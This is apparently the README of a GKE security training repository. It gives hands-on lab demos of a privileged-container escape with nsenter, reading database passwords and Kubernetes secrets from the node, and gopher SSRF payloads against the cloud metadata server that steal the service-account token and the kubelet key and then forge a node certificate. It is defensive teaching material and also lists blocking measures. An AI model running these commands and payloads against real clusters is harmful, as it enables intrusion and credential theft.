 # training-gke-security
This repository is for training of GKE Security

[![Open in Cloud Shell](http://gstatic.com/cloudssh/images/open-btn.png)](https://console.cloud.google.com/cloudshell/open?git_repo=https://github.com/rung/training-gke-security&page=editor&cloudshell_tutorial=README.md)

### Preparation
- Set project id
```bash
gcloud config set project PROJECT_ID
```

- Enable GKE API
```bash
gcloud services enable container.googleapis.com
```

- Create GKE Cluster
```bash
gcloud container clusters create gke-security-testing --zone us-central1-a --machine-type g1-small --num-nodes 3 --async
```

- Get a credential of GKE
```bash
gcloud container clusters get-credentials gke-security-testing --zone=us-central1-a
```

- Testing
```
kubectl get node
```

### Demo 1: PodSecurityPolicy
- Run root container
```
kubectl apply -f manifest/root/pod.yaml
```

- Enter root
```
kubectl exec -it root-container -- /bin/sh -c "nsenter --mount=/proc/1/ns/mnt -- /bin/bash"
```

- Get credentials
```
docker ps -q | xargs docker inspect --format='{{range .Config.Env}}{{println .}}{{end}}' | grep DB_Password
```

- (References)
```
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get secret dummy-secret -o yaml
```

- How to block
  - RBAC
  - exec

### Demo 2: Workload Identity
- Apply k8s manifest
```
kubectl apply -f manifest -R
```
(Please don't expose deployment on the Internet through Service.)

- Port-forward
```
kubectl port-forward deployment/ssrf-server 8080:8080
```

- Open Web Preview
<img src="img/web-preview.png" width="320">

- Input url (for testing)
```
https://www.google.com
```

- Input malicious url
  - Get instance token (doesn't use it in this training)
```
gopher://169.254.169.254:80/_GET /computeMetadata/v1/instance/service-accounts/default/token HTTP/1.1%0d%0aMetadata-Flavor: Google%0d%0aConnection: Close%0d%0a%0d%0a
```

  - Get kubelet key
```
gopher://169.254.169.254:80/_GET /computeMetadata/v1/instance/attributes/kube-env?alt=json HTTP/1.1%0d%0aMetadata-Flavor: Google%0d%0aConnection: Close%0d%0a%0d%0a
```
It contains "KUBELET_KEY".

- ctrl+A and store all result to `metadata-script/metadata.txt` file
  - TODO: ADD image

- Get node certificate
```bash
cd metadata-script

# Extract necessary data from metadata
bash extract.sh
ls -l metadata

# Get node certificate
bash make_cert.sh $(cat metadata/nodename)
```

- Get credentials
```
# Set env vars
KUBE_OPT="--client-certificate newcert/node.crt --client-key newcert/new.key --certificate-authority metadata/ca.crt --server https://$(cat metadata/api_ip)"
echo $KUBE_OPT

# Get secretName
kubectl describe pod | grep secret

# Get secret
kubectl get secret dummy-secret -o yaml
```

### (After this training) Clean cluster
```bash
gcloud container clusters delete gke-security-testing --zone us-central1-a --async
```

## References
- [SSRF in Exchange leads to ROOT access in all instances](https://hackerone.com/reports/341876)
- [Hacking Kubelet on Google Kubernetes Engine](https://www.4armed.com/blog/hacking-kubelet-on-gke/)
- [The Path Less Traveled: Abusing Kubernetes Defaults](https://speakerdeck.com/iancoldwater/the-path-less-traveled-abusing-kubernetes-defaults)
